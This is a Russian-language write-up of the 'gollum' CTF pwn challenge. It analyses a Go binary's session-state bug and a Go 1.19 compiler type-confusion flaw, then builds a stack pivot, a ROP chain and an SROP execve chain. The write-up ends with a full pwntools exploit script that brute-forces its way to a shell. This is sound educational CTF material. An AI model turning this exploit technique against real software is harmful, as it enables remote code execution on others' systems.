






# Описание

> In the depths of Orodruin I have found a new type of database. <br>
> It stores users and passwords within the single structure. <br>
> I hope it's safe. I use it in production anyway.

Согласно классификации разработчков, задание **gollum** является самым простым
по сложности заданием, однако под конец соревнований оно имело наименьшее количество
решений и фактически оказалось самым сложным. <br>
:drop_of_blood: <span style="color: red">**Я же решил его первым**</span> :drop_of_blood:

# Решение

## Анализ

К заданию прилагается архив c исходным кодом на Go

```sh
$ tree
.
├── deploy
│   ├── docker-compose.yml
│   ├── Dockerfile
│   ├── entrypoint.sh
│   ├── gollum
└── src
    ├── build.sh
    ├── cmd
    │   └── main.go
    ├── database
    │   └── database.go
    ├── Dockerfile
    ├── go.mod
    ├── models
    │   ├── credential.go
    │   └── user.go
    ├── services
    │   └── auth.go
    └── util
        └── hashes.go
```

Запустим `file` и `checksec`:

```sh
$ file gollum
gollum: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, Go BuildID=U5zgabr6y7z_rmgQr480/aF0WXt2RGaUXA0Hq_MuU/7vr2Qg4Tl__oBE76V6Jv/OAeBTWqr0fuu2MX0t8wP, with debug_info, not stripped

$ checksec --file=gollum
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols       FORTIFY Fortified   Fortifiable FILE
No RELRO        No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   2347 Symbols  No      0           0           gollum
```

Перед нами бинарь Golang, собранный в Debug версии. Запускаю бинарь.

```sh
./gollum
[!] Hello! Please, use `HELP` for available commands.
> HELP
[*] Use `LOGIN`, `REGISTER` or `EXIT` commands.
> REGISTER
[?] Please, enter username: foo
[?] Please, enter password: bar
[?] Please, enter password protection mode: sha1
[+] Registered successfully.
> LOGIN
[-] You are logged in, you should log out first.
> HELP
[*] Use `INFO`, `UPDATE`, `LOGOUT` or `EXIT` commands.
> INFO
[*] User: foo
> UPDATE
[?] Please, enter description: goida
[+] Description updated.
> INFO
[*] User: foo "goida"
> LOGOUT
> LOGIN
[?] Please, enter username: foo
[?] Please, enter password: bar
[+] Logged in successfully.
>
```

Программа является неким подобием базы, с возможностью регистрации, авторизации и обновления
описания пользователя. Стоит обратить внимание на само описание задания, где говорится о том,
что пользователи и пароли хранятся в рамках единой структуры. Первая моя внезапно возникшая мысль
была связана с уязвимостью **Type Confusion**, а как изветсно, первая мысль &ndash; самая верная

### Исходный код

#### Используемые модели

```go {linenos=1,linenostart=19}
type HashFunc func(Credential) string

type Credential struct {
    created time.Time

    hashFunc HashFunc
    password string
}
```

```go {linenos=1,linenostart=5}
type User struct {
    Id          int
    Name        string
    Description string

    CredentialId int
}
```

#### Создание пользователя и выход из аккаунта

```go {linenos=1,linenostart=140,hl_lines="30"}
func handleRegister(ctx *Context) {
    if ctx.loggedIn {
        fmt.Println("[-] You are logged in, you should log out first.")

        return
    }

    username := input("[?] Please, enter username: ")
    password := input("[?] Please, enter password: ")

    protection := input("[?] Please, enter password protection mode: ")

    var parsedProtection models.Protection
    switch strings.ToLower(protection) {
    case "full":
        parsedProtection = models.FullProtection
    case "md5":
        parsedProtection = models.MD5Protection
    case "sha1":
        parsedProtection = models.SHA1Protection
    case "sha256":
        parsedProtection = models.SHA256Protection
    default:
        fmt.Println("[-] Invalid protection mode, available modes: `Full`, `MD5`, `SHA1` and `SHA256`).")
        return
    }

    credential := models.NewCredential(password, parsedProtection)

    ctx.user.Name = username

    user, err := ctx.auth.Register(ctx.user, credential)
    if err != nil {
        fmt.Println("[-] Error:", err)
        return
    }

    fmt.Println("[+] Registered successfully.")

    ctx.user = user
    ctx.loggedIn = true
}
```

Здесь происходит создание нового пользователя и добавление его в базу данных. Заметим одну
неточность в реализации: при регистрации за основу берется структура `ctx.user`, поля которой
уже могут быть определены

Эксплуатация описанной выше уязвимости возможна благодаря следующей ошибке

```go {linenos=1,linenostart=140}
func handleLogout(ctx *Context) {
    if !ctx.loggedIn {
        fmt.Println("[-] You are not logged in, you should log in first.")

        return
    }

    ctx.loggedIn = false
}
```

В данной функции проиходит разлогинивание пользователя. Флаг `ctx.loggedIn` обнуляется, в отличие
от структуры `ctx.user`. В совокупности две эти ошибки позволяют нам создать пользователя с
уже **заполненным описанием**

#### Обновление описания и вход в аккаунт

```go {linenos=1,linenostart=121}
func handleUpdate(ctx *Context) {
    if !ctx.loggedIn {
        fmt.Println("[-] You are not logged in, you should log in first.")

        return
    }

    description := input("[?] Please, enter description: ")

    user := models.User{
        Name:        ctx.user.Name,
        Description: description,
    }

    ctx.db.UpdateUser(user)

    fmt.Println("[+] Description updated.")
}
```

При обновлении описания пользователя, его описание помещается в базу данных, однако структура
`ctx.user` не обновляется. Чтобы это исправить, достаточно перезайти в аккаунт

```go {linenos=1,linenostart=84,hl_lines="19"}
func handleLogin(ctx *Context) {
    if ctx.loggedIn {
        fmt.Println("[-] You are logged in, you should log out first.")

        return
    }

    username := input("[?] Please, enter username: ")
    password := input("[?] Please, enter password: ")

    user, err := ctx.auth.Login(username, password)
    if err != nil {
        fmt.Println("[-] Error:", err)
        return
    }

    fmt.Println("[+] Logged in successfully.")

    ctx.user = user
    ctx.loggedIn = true
}
```

#### Отладочная информация

```go {linenos=1,linenostart=19,hl_lines="11"}
func (db *Database) AddCredential(credential models.Credential) int {
    id := len(db.storage)

    db.storage[id] = credential

    type debugEntry[T any] struct {
        Credential models.Credential
    }

    entry := debugEntry[int]{credential}
    fmt.Sprintf("[DEBUG] Added credential entry %v\n", entry)

    return id
}
```

```go {linenos=1,linenostart=48,hl_lines="12"}
func (db *Database) AddUser(user models.User) int {
    id := len(db.storage)

    user.Id = id
    db.storage[id] = user

    type debugEntry[T any] struct {
        User models.User
    }

    entry := debugEntry[int]{user}
    fmt.Sprintf("[DEBUG] Added user entry %v\n", entry)

    return id
}
```

При анализе исходного кода, я обратил внимание на данные строки. Я не придал им должного значения,
однако меня смутило, что данная информация не выводится в консоль (что логично, ведь `fmt.Sprintf`
возвращает строку и ничего не выводит). Практическое значение этого кода я не понял

## Эксплуатация

Возвращаясь к моей мысле о Type Confusion, я решил поискать в интернете известные уязвимости Golang,
и буквально первым результатом был [issue на GitHub](https://github.com/golang/go/issues/54456) с
описанием данной проблемы. Как ни странно, версия Go совпадает с нашей

Локальная версия Golang:

```docker {linenos=1,hl_lines="1"}
FROM golang:1.19

WORKDIR /tmp/build

CMD go build -o gollum ./cmd/main.go
```



В issue также представлен PoC, который при запуске выдает ошибку сегментации. Проблема заключается
в недоработке компилятора, который использует имена внутренних типов как есть, и создание нескольких
внутренних типов с одинаковыми именами приводит к уязвимости Type Confusion



Перекладывая это на наш случай, приходим к выводу, что в функции
<a data-target="code-block" href="#hl-10-55">**AddUser**</a>
тип поля структуры `debugEntry` не `models.User`, а `models.Credential`
(который был определен ранее в
<a data-target="code-block" href="#hl-9-25">**AddCredential**</a>).
С помощью GDB в этом можно легко убедиться




### Type Confusion для захвата RIP

Заметим, что поля `Credential.hashFunc` и `User.Description` пересекаются

```plain
$ pahole -C gollum/models.Credential gollum
struct gollum/models.Credential {
    time.Time                  created;              /*     0    24 */
    gollum/models.HashFunc     hashFunc;             /*    24     8 */
    struct string              password;             /*    32    16 */

    /* size: 48, cachelines: 1, members: 3 */
    /* last cacheline: 48 bytes */
};

$ pahole -C gollum/models.User gollum
struct gollum/models.User {
    int                        Id;                   /*     0     8 */
    struct string              Name;                 /*     8    16 */
    struct string              Description;          /*    24    16 */
    int                        CredentialId;         /*    40     8 */

    /* size: 48, cachelines: 1, members: 4 */
    /* last cacheline: 48 bytes */
};
```

Из-за того что `Credential.hashFunc` является указателем на таблицу методов, а `User.Description`
&ndash; указателем на строку, мы можем с легкостью захватить RIP, указав в описании пользователя
интересующий нас адрес. Однако уязвимость актуальна только **при создании** пользователя, поэтому
мы воспользуемся <a data-target="code-block" href="#hl-5-171">еще одной уязвимостью</a>, описанной
ранее

```go {linenos=1,linenostart=57,hl_lines="3"}
    ...
    entry := debugEntry[int]{user}
    fmt.Sprintf("[DEBUG] Added user entry %v\n", entry)
    ...
```

```go {linenos=1,linenostart=58,hl_lines="5"}
func (credential Credential) String() string {
    var hash string

    if credential.hashFunc != nil {
        hash = credential.hashFunc(credential)
        hash = hash[:3] + "***" + hash[len(hash)-3:]
    } else {
        hash = "***"
    }

    return hash
}
```

### Pivoting и SROP для получения оболочки

В данный момент мы можем контролировать только RIP



Для последующей эксплуатации с помощью ROP необходимо контролировать некоторое количество памяти стека.
Заметим, что RSP указывает в область памяти, где находится строка с описанием, причем значение RSP
указывает на память до строки



Оффсет RSP до буффера случаен, однако 3 последних ниббла всегда статичны. Также практическим путем
было выяснено, что оффсет не превышает 0x80000 и его можно быстро забрутить. Исходя из этого я
подобрал несколько гаджетов для pivoting'а. Наиболее удачным оказался воторой

```python
ADD_RSP = 0x45d0ba    #: add rsp, 0x20008 ; ret
ADD_RSP = 0x45d1ba    #: add rsp, 0x40008 ; ret
ADD_RSP = 0x45d2ba    #: add rsp, 0x80008 ; ret
```

Для вызова execve необходимо контролировать **rax**, **rdi**, **rsi** и **rdx**, а также иметь
строку **/bin/sh** и знать ее адрес. Бинари, написанные на Go, не богаты гаджетами

```sh
$ ROPgadget --binary gollum | grep -E ': pop r.{2} ; ret$'
0x000000000040c9d7 : pop rax ; ret
0x000000000045f76d : pop rbp ; ret
0x0000000000407dc1 : pop rbx ; ret
0x000000000042dc82 : pop rdx ; ret
```

Я пошел немного эвриcтическим путем, а именно: с помощью известных простых гаджетов создал
в памяти строку **/bin/sh**

```python
POP_RAX = 0x40c9d7                          #: pop rax ; ret
POP_RBX = 0x407dc1                          #: pop rbx ; ret
MOV_PTR_RAX_8_RCX = 0x47fb17                #: mov qword ptr [rax + 8], rcx ; ret
MOV_RCX_RBX_CALL_RAX = 0x45de9f             #: mov rcx, rbx ; call rax
ADD_RSP_8_RET = 0x40e91e                    #: add rsp, 8 ; ret
SYSCALL  = 0x4026ac                         #: syscall

BUF_ADDR = 0x53e000
BUF_VALUE = b'/bin/sh\0'

rop = [
    POP_RAX,
    ADD_RSP_8_RET,
    POP_RBX,
    BUF_VALUE,
    MOV_RCX_RBX_CALL_RAX,

    POP_RAX,
    BUF_ADDR - 8,
    MOV_PTR_RAX_8_RCX,
]
```

И выполнил SROP для настройки аргументов execve

```python
frame = SigreturnFrame()
frame.rax = constants.SYS_execve
frame.rdi = BUF_ADDR
frame.rip = SYSCALL

rop += [
    POP_RAX,
    constants.SYS_rt_sigreturn,
    SYSCALL,
    frame
]
```

### Собираем вместе

<details>
    <summary>Эксплоит</summary>

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host 127.0.0.1 --port 17172 gollum
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'gollum')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141 EXE=/tmp/executable
host = args.HOST or '127.0.0.1'
port = int(args.PORT or 17172)


def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.STRACE:
        with tempfile.NamedTemporaryFile(prefix='pwnlib-log-', suffix='.strace',
                                         delete=False, mode='w') as tmp:
            log.debug('Created strace log file %r\n', tmp.name)
            run_in_new_terminal(['tail', '-f', '-n', '+1', tmp.name])
            return process(['strace', '-o', tmp.name, '--'] + [exe.path] + argv, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

def num(n):
    return str(n).encode()

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main.main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    No RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)

from pwnbrute import *

# ADD_RSP = 0x45d0ba #: add rsp, 0x20008 ; ret
ADD_RSP = 0x45d1ba #: add rsp, 0x40008 ; ret
# ADD_RSP = 0x45d2ba #: add rsp, 0x80008 ; ret

POP_RAX = 0x40c9d7                          #: pop rax ; ret
POP_RBX = 0x407dc1                          #: pop rbx ; ret

MOV_PTR_RAX_8_RCX = 0x47fb17                #: mov qword ptr [rax + 8], rcx ; ret
MOV_RCX_RBX_CALL_RAX = 0x45de9f             #: mov rcx, rbx ; call rax
ADD_RSP_8_RET = 0x40e91e                    #: add rsp, 8 ; ret
SYSCALL  = 0x4026ac                         #: syscall
BUF_ADDR = 0x53e000
BUF_VALUE = b'/bin/sh\0'

frame = SigreturnFrame()
frame.rax = constants.SYS_execve
frame.rdi = BUF_ADDR
frame.rip = SYSCALL

rop = [
    POP_RAX,
    ADD_RSP_8_RET,
    POP_RBX,
    BUF_VALUE,
    MOV_RCX_RBX_CALL_RAX,

    POP_RAX,
    BUF_ADDR - 8,
    MOV_PTR_RAX_8_RCX,

    POP_RAX,
    constants.SYS_rt_sigreturn,
    SYSCALL,
    frame
]

MENU = b'> '


def pwn():
    io = start()

    # Register user
    io.sendlineafter(MENU, b'register')
    io.sendlineafter(b': ', b'foo')
    io.sendlineafter(b': ', b'bar')
    io.sendlineafter(b': ', b'sha1')

    # Update his description
    io.sendlineafter(MENU, b'update')
    io.sendlineafter(b': ', flat({
        0: ADD_RSP,
        0x1e0: rop,
        0x1000: b'',
    }) * 20)  # Repeat chain to increase exploit probability

    io.sendlineafter(MENU, b'logout')

    # Update `ctx.user` struct
    io.sendlineafter(MENU, b'login')
    io.sendlineafter(b': ', b'foo')
    io.sendlineafter(b': ', b'bar')

    io.sendlineafter(MENU, b'logout')

    # Register user with prepared description
    io.sendlineafter(MENU, b'register')
    io.sendlineafter(b': ', b'hui')
    io.sendlineafter(b': ', b'bar')
    io.sendlineafter(b': ', b'sha1')

    io.sendline(b'echo cleanoutput')
    io.recvuntil(b'cleanoutput')

    success()

    io.interactive()


if __name__ == '__main__':
    brute(pwn, workers=16)
```

</details>


